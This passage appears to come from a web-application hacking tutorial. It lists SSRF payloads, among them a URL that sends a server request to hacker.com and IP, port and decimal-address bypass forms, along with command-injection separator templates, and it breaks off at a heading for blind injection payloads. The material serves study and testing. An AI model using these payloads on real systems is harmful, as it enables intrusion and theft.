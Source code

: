 If there were more than one URL parameters with conditional statements like \[&] then we will use a payload like \[\&x=] to get rid of the logical condition and comment out the rest of the URL Below is example of legitimate URL http://example.com/stock?url=https://domain.com/server/profile/item?id=1\&token=4 Below we exploit it to ignore everything after our URL to which we want to direct visitors. Suppose we want the server to make a request to: http://hacker.com/hack?name=ssrf then the exploit would be

```
http://example.com/stock?url=http://hacker.com/hack?name=ssrf&x=
```

**Some payloads if the URL consisted of ip and port**

```
http://[::]:[port]
```

```
http://[ip]:[port]
```

```
http://:::[port]
```

```
http://2130706433:3306
http://Hex:[port]
```

#### Command Injection

In command injection, the attacker-injected code gets executed by the underlying OS allowing the attacker to execute system commands to discover sensitive files, navigate through the directory structure, create files and of course plant reverse shells and backdoors.

**Blind command injection**

In this type of command injection, the web application does not return output or feedback when you inject it with paylods. The only way to determine if your command has been executed is to use \[ping] or \[sleep] commands and monitor if the application hangs for seconds. For windows you can use \[timeout] and also \[ping].

**Verbose command injection**

Here the output is returned to the user where a decision can be formed if the system is vulnerable to command injection.

**Example payloads both blind and verbose**

Normally your payloads are system commands you wish to execute on the system. The general formula is below

```
expected input;payload
expected input&&payload
expected input&payload
```

**Example payload for blind command injection**
